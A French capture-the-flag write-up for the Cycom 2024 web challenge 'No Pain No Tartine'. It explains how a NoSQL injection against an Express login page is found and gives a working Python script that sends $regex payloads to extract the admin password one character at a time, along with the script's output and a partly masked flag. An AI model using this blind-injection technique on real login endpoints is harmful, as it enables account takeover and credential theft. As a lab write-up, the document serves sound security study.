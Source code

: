 ```yaml
---
title: "No Pain No Tartine"
date: 2024-04-14T09:03:20-08:00
draft: false
---
```


# Cycom 2024 - No Pain No Tartine - Web - 400 points

## Énoncé
Je veux des tartines, je veux du paing et je veux le mot de passe admin.
Le mot de passe de l'administrateur suit le format CYCOM{}.

## Solution
Le défi nous présente une page de connexion :

![](/images/2024/012/01.png)

Un placeholder suggère que le nom d'utilisateur pourrait être "admin". Il semble impossible d'exploiter des injections SQL ici. De plus, aucun mot de passe simple ne semble fonctionner.

![](/images/2024/012/02.png)

Cependant, en examinant la requête envoyée au serveur, on découvre qu'il s'agit d'une application Express, ce qui nous amène à envisager une potentielle injection NoSQL.

![](/images/2024/012/03.png)

Nous pouvons utiliser des expressions régulières pour effectuer des recherches dans la base de données. Il suffit alors de créer un script pour déterminer le mot de passe :

```py
import requests

url = 'http://localhost:50012/login'

username = 'admin'

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{ }_-*!;."

found_flag = ''
while not found_flag.endswith('}'):
    for char in chars:
        payload = {
            'username': username,
            'password': {'$regex': f'^{found_flag}{char}.*'}
        }
        response = requests.post(url, json=payload)
        if response.status_code == 200:
            found_flag += char
            print(f'\nFlag: {found_flag}')
            break

print(f'Flag found: {found_flag}')

```
On lance le script : 

```
python solve.py

Flag: C
Flag: CY
Flag: CYC
Flag: CYCO
Flag: CYCOM
Flag: CYCOM{
Flag: CYCOM{N
Flag: CYCOM{N0
Flag: CYCOM{N0_
Flag: CYCOM{N0_5
Flag: CYCOM{N0_5Q
Flag: CYCOM{N0_5Q1
Flag: CYCOM{N0_5Q1_
Flag: CYCOM{N0_5Q1_
...

Flag found: CYCOM{N0_5Q1_*******************}
```
*FLAG : CYCOM{N0_5Q1_\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}*

## Auteur

Nasty